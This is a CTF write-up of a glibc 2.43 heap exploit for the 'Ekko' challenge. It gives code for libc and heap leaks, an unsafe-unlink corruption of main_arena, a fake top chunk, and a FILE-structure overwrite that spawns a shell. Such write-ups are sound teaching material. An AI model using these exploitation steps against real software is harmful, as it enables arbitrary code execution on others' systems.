# Securinets CTF 2026
## Ekko
### Overview
A heap challenge using libc version `2.43` with tcache and fastbins disabled.

The program lets the user allocate an `arbitrary size` and has a `use-after-free`, which gives us the choice of leaking data after a free, but there is no `edit` option. It also restricts the user to only 2 indices.

### Exploitation
I first allocate a large chunk of `0x500` and then free it. The chunk then goes into the `unsorted bin`, which lets us leak libc.
```py
alloc(0, 0x500, b"rrr")     
alloc(1, 0x100, b"fff")          
delete(0)    
show(0)

libc_leak = u64(r(6).ljust(8, b"\x00"))
libc.address = libc_leak - 0x1d1c68
info(f"libc leak: {hex(libc_leak)}")
info(f"libc base: {hex(libc.address)}")
```
Then I take it back out of the `unsorted bin` to use another technique.
```py
alloc(0, 0x500, b"skippppp")
```
Now I free two chunks into the `smallbins`; the `fd` of the second freed chunk then points at the first one, which gives us a heap leak.
```py
alloc(0, 0x100, b"fd")      
alloc(1, 0x18, b"aaa")      
alloc(1, 0x100, b"bbb")         
delete(0)
alloc(0, 0x300, b"ahihi")       
delete(1)                                   

show(1)
heap_leak = u64(r(6).ljust(8, b"\x00")) 
heap_base = heap_leak - 0x620

info(f"heap leak: {hex(heap_leak)}")
info(f"heap base: {hex(heap_base)}")
```

Now I empty the smallbin list again for the next technique.
```py
alloc(0, 0x100, b'1'*0x20)
alloc(1, 0x100, b'2'*0x20)
```

Next, I allocate an `FSOP chunk`, which I will modify later if needed, because I already have the libc and heap bases.
```py
io = FileStructure()
io.flags = 0x3b01010101010101
io._IO_read_ptr = b'sh'
io._IO_write_ptr = heap_base+0x1000
io._IO_write_base = 0
io.chain = libc.sym._IO_2_1_stdout_
io.vtable = libc.sym._IO_wfile_jumps
io._lock = libc.sym._IO_stdfile_2_lock
io._wide_data = heap_base +0xc20 # check later

load = bytes(io)
load += flat(
    b'\0'*0xa0,
    p64(heap_base+0xca0),
    libc.sym.system
)
alloc(0, 0x2f8, load) # modify later
```
Then I try to create a chunk overlap using the heap's consolidation feature by first creating two chunks. After that, I allocate one more guard chunk to avoid the consolidation of the `wild chunk`.
```py
alloc(0, 0x100, b'3'*0x20)
alloc(1, 0x100, b'4'*0x20)

delete(0)

alloc(0, 0x200, b'guard'*10)

delete(1)
```
After that, I allocate a `0x100`-sized chunk again to reclaim the two freed chunks inside the `smallbins`.
```py
# Set up again for double free
alloc(0, 0x100, b'5'*0x20)

# Used for double free
alloc(1, 0x100, b'6'*0x20)
```

Here is where it gets complex: I have to free the `0` first and then the `1`, so that the second chunk consolidates with the `idx 0` chunk. The `idx 1` chunk (the consolidated chunk) will also be stored as `last_remainder`, which is at `av->last_remainder` (main_arena+0x10).
- It configures [`last_remainder`](https://elixir.bootlin.com/glibc/glibc-2.43/source/malloc/malloc.c#L3336) here:
```c
 /* unlink */
    unlink_chunk (av, victim);

    /* Exhaust */
    if (remainder_size < MINSIZE)
    {
        ...
    }

    /* Split */
    else
    {
    // Line 4277
        remainder = chunk_at_offset (victim, nb);

        /* We cannot assume the unsorted list is empty and therefore
            have to perform a complete insert here.  */
        bck = unsorted_chunks (av);
        fwd = bck->fd;
        if (__glibc_unlikely (fwd->bk != bck))
            malloc_printerr ("malloc(): corrupted unsorted chunks 2");
        remainder->bk = bck;
        remainder->fd = fwd;
        bck->fd = remainder;
        fwd->bk = remainder;

        /* advertise as last remainder */
        if (in_smallbin_range (nb))
            av->last_remainder = remainder;
```
Now, if we check again, we still have two `UAF` pointers in both `idx` slots. So now I allocate a chunk that contains both previously freed chunks, which will be `0x220` including metadata.

I also overwrite the `metadata` of the `UAF idx 1` chunk with a fake size, along with another fake small chunk as a `guard chunk` at the bottom of the `0x220` chunk, to avoid consolidation.
```py
load = bytearray(0x217)
load[0x108:0x110] = p64(0xf1)
load[0x1f8:0x200] = p64(0x21)

alloc(0, 0x218, load)
```



The next step is freeing the chunk with the `overwritten metadata`, which is the `UAF chunk at idx 1`.

You can see that the `in_use` bit of the fake `0x20`-sized chunk is cleared. The purpose of this fake chunk is to prevent the bit of the `actual guard chunk` from being cleared to **0**, so that I can still free the large `0x220`-sized chunk.
```py
delete(1)

delete(0)
```

So after freeing both `idx 0` and `idx 1`, I allocate the `0x220`-sized chunk again to overwrite the metadata of `idx 1` one more time. This technique is known as `unsafe_unlink`.

- From this:

- To this:
```c
0x55555555cf80	0x0000000000000000	0x00000000000000f1	................	 <-- smallbins[0xf0][0]
0x55555555cf90	0x0000155555503c58	0x0000155555503d50	X<PUU...P=PUU...
```


The concept of `unsafe_unlink` is based on this block of code.
```c
#define unlink(P, BK, FD) {                                            \
  FD = P->fd;                                                          \
  BK = P->bk;                                                          \
  if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                \
    malloc_printerr (check_action, "corrupted double-linked list", P); \
  else {                                                               \
    FD->bk = BK;                                                       \
    BK->fd = FD;                                                       \
  }
```
So now I first allocate a `0xd8`-sized chunk to trigger the `unsafe_unlink`, because if I choose `0xe8`, it will just take the `victim chunk` from the `smallbins` and give it back to me — no unlink happens. That's why I use `0xd8`, so that it processes this block of code:
```c
...
else
    {
        size = chunksize (victim);

        /*  We know the first chunk in this bin is big enough to use. */
        assert ((unsigned long) (size) >= (unsigned long) (nb));

        remainder_size = size - nb;

        /* unlink */
        unlink_chunk (av, victim);

        /* Exhaust */
        if (remainder_size < MINSIZE)
...
```
After successfully getting the `unsafe_unlink`, we overwrite two addresses, as in the image below.

We overwrote two addresses:
- `FW->BK`: 0x155555503c70 = 0x155555503d50
- `BK->FW`: 0x155555503d60 = 0x155555503c58

After allocating `0xd8`:


Now `bin[idx].bk = 0x155555503c58`. So if I allocate the exact `0xe8`, it will just take `0x155555503c58` out of the `smallbins` and return it to the user, which allows me to overwrite that poisoned chunk: `main_arena+0x8`.
```c
// line 3865
if (in_smallbin_range (nb))
{
    idx = smallbin_index (nb);
    bin = bin_at (av, idx);

    if ((victim = last (bin)) != bin)
    {
        bck = victim->bk;
        if (__glibc_unlikely (bck->fd != victim))
            malloc_printerr ("malloc(): smallbin double linked list corrupted");
        set_inuse_bit_at_offset (victim, nb);
        bin->bk = bck;
        bck->fd = bin;
        return chunk2mem (victim);
...
}        
```
Because libc now allocates `main_arena+0x8`, which is `av->top`, I can overwrite that with a fake `top chunk` and other components inside `main_arena` as well.
```c
av->top: 0x8
av->last_remainder: 0x10
main_arena+0x18 = main_arena+8 
main_arena+0x20 = main_arena+8
```
- Here is the `malloc_state` struct, which is inside the `main_arena` area:
```c
struct malloc_state
{
    __libc_lock_define (, mutex);        /* 0x00  4 bytes */
    int flags;                            /* 0x04  4 bytes */
    mchunkptr top;                        /* 0x08 */
    mchunkptr last_remainder;             /* 0x10 */
    mchunkptr bins[NBINS * 2 - 2];        /* 0x18  254 pointers */
    unsigned int binmap[BINMAPSIZE];      /* 0x808 4 words = 128 bits */
    struct malloc_state *next;            /* 0x818 */
    struct malloc_state *next_free;       /* 0x820 */
    INTERNAL_SIZE_T attached_threads;     /* 0x828 */
    INTERNAL_SIZE_T system_mem;           /* 0x830 */
    INTERNAL_SIZE_T max_system_mem;       /* 0x838 */
};
```

```py
load = bytearray(0xe7)
load[0:8] = p64(main_arena + 0x830)
load[0x10:0x18] = p64(main_arena + 8)  
load[0x18:0x20] = p64(main_arena + 8)  

# Top chunk hijack inside main arena
alloc(0, 0xe8, load)
```
My fake `top chunk` will be at `av->system_mem`, so the fake `wild size` will point to `av->max_system_mem`:


Because `IO_list_all` is right below that, I first allocate a padding chunk.

> The chunk is right before `IO_list_all`

The next chunk should be large enough for the `wild size` value to write somewhere that does not affect the program much; I choose `0x400`.

After I have overwritten `IO_list_all` with my fake `file struct` on the heap, I choose exit to activate my FSOP and get a shell.


# References
- https://blog.buddurid.tech/2026/10/19/house-of-ekko
